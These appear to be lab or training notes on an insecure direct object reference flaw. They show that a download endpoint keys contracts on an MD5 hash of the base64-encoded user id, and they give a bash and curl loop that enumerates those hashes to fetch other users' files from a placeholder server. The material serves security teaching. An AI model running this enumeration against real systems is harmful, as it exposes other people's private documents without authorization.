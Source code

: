 ```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

in this case the user id will be base64 encoded then md5 hashed using the cryptojs library 

we can test our own values to see if we can replicate the code: 

```shell
echo -n 1 | base64 -w 0 | md5sum
```

make sure to use `-n` and `-w 0` to avoid adding newlines 

### Mass enumeration 

we can create a script to encode and hash many values to try to enumerate other files: 

```shell
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

we can also so this in burp with payload processing to base64, hash, or urlencode our payloads: 
